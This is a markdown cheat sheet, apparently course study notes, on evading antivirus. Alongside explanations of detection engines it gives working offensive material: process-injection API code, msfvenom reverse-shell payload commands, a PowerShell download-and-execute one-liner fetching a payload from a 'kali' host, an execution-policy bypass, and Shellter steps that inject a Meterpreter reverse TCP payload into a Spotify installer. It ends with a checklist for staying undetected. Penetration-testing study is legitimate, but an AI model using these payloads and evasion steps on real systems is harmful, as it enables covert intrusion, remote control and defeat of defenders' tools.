

# Antivirus Evasion - Cheat Sheet & Walkthrough

## Table of Contents
1. [AV Key Components & Operations](#1-av-key-components--operations)
2. [AV Evasion Techniques](#2-av-evasion-techniques)
3. [AV Evasion in Practice](#3-av-evasion-in-practice)
4. [Quick Reference](#4-quick-reference)

---

## 1. AV Key Components & Operations

### 1.1 Known vs Unknown Threats

#### Signature-Based Detection
> Identifies malware by matching unique patterns (signatures) in files

| Signature Type | Description | Example |
|----------------|-------------|---------|
| **File Hash** | MD5/SHA1/SHA256 of entire file | `d41d8cd98f00b204e9800998ecf8427e` |
| **Binary Sequence** | Specific byte patterns | `\x90\x90\x90\x90` (NOP sled) |
| **Behavioral** | Actions performed by malware | Registry modifications |
| **Network** | Communication patterns | C2 server connections |

#### YARA Rules
- Open-source signature language (2014)
- Used by VirusTotal
- Allows custom malware detection rules

```yara
rule Suspicious_PowerShell {
    strings:
        $s1 = "Invoke-Expression" nocase
        $s2 = "IEX" nocase
    condition:
        $s1 or $s2
}
```

#### Machine Learning (ML) Detection
- Cloud-based analysis
- Detects unknown/zero-day threats
- Requires internet connection
- Used by Windows Defender, etc.

#### EDR vs AV

| Feature | AV | EDR |
|---------|----|-----|
| **Detection** | Known threats | Known + Unknown |
| **Response** | Block/Quarantine | Alert + Response |
| **Telemetry** | Limited | Full visibility |
| **Integration** | Standalone | SIEM integration |
| **Cloud** | Optional | Often required |

---

### 1.2 AV Engines & Components

#### Core AV Components

| Component | Function | Detection Method |
|-----------|----------|------------------|
| **File Engine** | Scan files on disk | Signatures, heuristics |
| **Memory Engine** | Scan process memory | Signatures, API calls |
| **Network Engine** | Monitor network traffic | Signatures, anomalies |
| **Disassembler** | Analyze machine code | Reverse engineering |
| **Emulator/Sandbox** | Execute in isolated environment | Dynamic analysis |
| **Browser Plugin** | Monitor web content | Malicious script detection |
| **ML Engine** | Cloud-based analysis | Pattern recognition |

#### How AV Works

```
File Created/Downloaded
        ↓
File Engine Scans (On-access/On-demand)
        ↓
If Suspicious → Sandbox Execution
        ↓
Signature Match → Quarantine
        ↓
No Signature → ML Engine (Cloud)
        ↓
Unknown → Heuristic Analysis
        ↓
Alert or Allow
```

#### Kernel vs User Mode
- **Kernel Mode**: Mini-filter drivers for real-time scanning
- **User Mode**: Application-level scanning and UI

---

## 2. AV Evasion Techniques

### 2.1 On-Disk Evasion

#### Techniques Comparison

| Technique | Description | Effectiveness | Complexity |
|-----------|-------------|---------------|------------|
| **Packer** | Compress executable | Low (Modern AV detects) | Low |
| **Obfuscator** | Mutate code structure | Medium | Medium |
| **Crypter** | Encrypt with decryption stub | High | High |
| **Protector** | Combine techniques | Very High | High |

#### Packer Example
```bash
# UPX - Most common packer
upx -9 malware.exe

# Results in different hash but same functionality
# Easily detected by modern AV
```

#### Obfuscation Techniques
- Replace instructions (MOV vs PUSH/POP)
- Insert dead code
- Reorder functions
- Encrypt strings
- Split code into sections

#### Crypter Workflow
```
Original Code → Encrypted Payload
                    ↓
            Decryption Stub
                    ↓
    Encrypted Payload + Decryption Stub
                    ↓
        Executable (AV Evasion)
```

#### Software Protectors (Commercial)
- The Enigma Protector
- VMProtect
- Themida
- Obsidium

---

### 2.2 In-Memory Evasion

#### Process Injection Techniques

| Technique | Method | Stealth Level |
|-----------|--------|---------------|
| **Remote Process Injection** | Inject into running process | High |
| **Reflective DLL Injection** | Load DLL from memory | Very High |
| **Process Hollowing** | Replace legitimate process | Very High |
| **Inline Hooking** | Redirect execution flow | Very High |
| **Thread Injection** | Inject into existing thread | High |

#### Remote Process Injection Flow


**Key Windows APIs**:
```c
// Open target process
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

// Allocate memory in process
LPVOID pAddr = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// Write payload to allocated memory
WriteProcessMemory(hProcess, pAddr, payload, size, NULL);

// Execute payload in new thread
CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAddr, NULL, 0, NULL);
```

#### Reflective DLL Injection
- Loads DLL from memory (not disk)
- Custom `LoadLibrary` implementation
- No `LoadLibrary` API call
- Avoids disk-based detection

#### Process Hollowing
1. Create process in suspended state
2. Unmap original executable
3. Write malicious PE to memory
4. Resume process
5. Malicious code executes

---

## 3. AV Evasion in Practice

### 3.1 Testing Best Practices

#### Safe AV Testing

| DO | DON'T |
|----|-------|
| Test in isolated VM | Upload to VirusTotal unnecessarily |
| Disable sample submission | Test on production systems |
| Use Kleenscan.com when needed | Share samples with AV vendors |
| Build representative environment | Rely on single test |

#### Disabling Sample Submission

**Windows Defender**:
1. Windows Security → Virus & threat protection
2. Manage Settings
3. Automatic Sample Submission → OFF

**Why It Matters**:
- Prevents sample analysis
- Avoids signature generation
- Maintains stealth

#### Testing Environment Requirements
- Same AV version as target
- Same OS version
- Same patch level
- Network conditions
- User privileges

---

### 3.2 PowerShell Memory Injection

#### PSH-Reflection Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

#### PowerShell Code Explanation

**Key DLL Imports**:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
    uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
    uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
```

**Functions**:
- `VirtualAlloc` - Allocate memory
- `CreateThread` - Execute payload
- `memset` - Write payload to memory

#### Execution Policy Bypass
```powershell
# Check current policy
Get-ExecutionPolicy -Scope CurrentUser

# Bypass for current user
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

# Or bypass for single script
powershell -ExecutionPolicy Bypass -File bypass.ps1

# Or bypass for single command
powershell -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://kali/payload.ps1')"
```

#### PowerShell Evasion Variables
- Random variable names
- Random function names
- Avoid common strings
- Use obfuscation

---

### 3.3 Automated AV Evasion (Shellter)

#### Installation
```bash
# Install Shellter
sudo apt install shellter

# Install Wine (x86)
sudo apt install wine
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install wine32

# For ARM architecture
sudo apt install wine qemu-user-static binfmt-support
```

#### Shellter Usage

**Step 1: Launch Shellter**
```bash
shellter
```

**Step 2: Select Mode**
```
[?] Choose mode:
A = Auto (use advanced heuristics to automatically inject payload)
M = Manual (for advanced users only)
Enter choice: A
```

**Step 3: Select Target PE**
```
[?] Target PE path: /home/kali/Downloads/SpotifyFullWin10-32bit.exe
```

**Step 4: Enable Stealth Mode**
```
[?] Enable Stealth Mode?
Y = Yes (recommended)
N = No
Enter choice: Y
```

**Step 5: Select Payload**
```
[?] Payload:
L = List payloads (Available)
C = Custom (supports raw binary shellcode)
Enter choice: L
```

**Step 6: Configure Payload**
```
[0] Meterpreter Reverse TCP
[1] Meterpreter Reverse HTTPS
[2] Meterpreter Bind TCP
...
Enter choice: 0

LHOST: 192.168.50.1
LPORT: 443
```

#### Meterpreter Listener Setup
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

#### Stealth Mode Benefits
- Restores original execution flow
- Application behaves normally
- Avoids suspicion
- Payload executes in background

#### Shellter Process Flow
```
Original PE → Analysis → Find Injection Point
        ↓
Copy Payload to PE
        ↓
Inject Decoder + Payload
        ↓
Enable Stealth Mode
        ↓
Modified PE (AV Evasion)
```

---

## 4. Quick Reference

### Commands Reference

#### msfvenom Payload Generation
```bash
# PowerShell Reflection
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f psh-reflection

# C format (shellcode)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f c

# Python format
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f python

# Raw binary
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f raw

# Executable
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > payload.exe
```

#### PowerShell Execution
```powershell
# Run script (with bypass)
powershell -ExecutionPolicy Bypass -File script.ps1

# Run encoded command
powershell -EncodedCommand BASE64_STRING

# Download and execute
IEX (New-Object Net.WebClient).DownloadString('http://kali/payload.ps1')
```

#### Process Injection APIs (C++)
| API | Purpose |
|-----|---------|
| `OpenProcess` | Get process handle |
| `VirtualAllocEx` | Allocate memory in remote process |
| `WriteProcessMemory` | Write payload to remote memory |
| `CreateRemoteThread` | Execute payload |
| `VirtualProtectEx` | Change memory permissions |
| `GetProcAddress` | Get function address |

---

### AV Evasion Checklist

#### Pre-Execution
- [ ] Identify target AV product and version
- [ ] Build representative testing environment
- [ ] Disable sample submission
- [ ] Test payload in isolated VM
- [ ] Verify payload works without AV
- [ ] Test with AV enabled

#### On-Disk Evasion
- [ ] Use crypter/obfuscator
- [ ] Pack executable (if not detected)
- [ ] Change file hash (recompile/modify)
- [ ] Use less common file formats
- [ ] Test with online scanner (Kleenscan)

#### In-Memory Evasion
- [ ] Use PowerShell injection
- [ ] Use Shellter with legitimate PE
- [ ] Process injection (Remote/Reflective)
- [ ] Obfuscate variable/function names
- [ ] Use encryption/encoding

#### Delivery
- [ ] Obfuscate download URLs
- [ ] Use HTTPS
- [ ] Stage payload delivery
- [ ] Consider user interaction

#### Monitoring
- [ ] Test execution flow
- [ ] Verify stealth mode
- [ ] Monitor for detection alerts
- [ ] Have fallback plan

---

### Detection Signs

| Sign | What It Means |
|------|---------------|
| File quarantined | AV detected on-disk |
| Process terminated | AV detected in-memory |
| Network blocked | AV detected C2 communication |
| User alerted | Windows Defender/AV notification |
| Script blocked | AMSI/Execution Policy restriction |

---

### Key Takeaways

| Concept | Key Point |
|---------|-----------|
| **Signatures** | Unique identifiers for known malware |
| **ML Engines** | Cloud-based unknown threat detection |
| **EDR** | Full visibility + SIEM integration |
| **On-Disk Evasion** | Packers, obfuscators, crypters, protectors |
| **In-Memory Evasion** | Process injection, Reflective DLL, Hollowing |
| **PowerShell** | Memory injection via Windows APIs |
| **Shellter** | Automated AV evasion via PE injection |
| **Safe Testing** | Isolated VM, disable sample submission |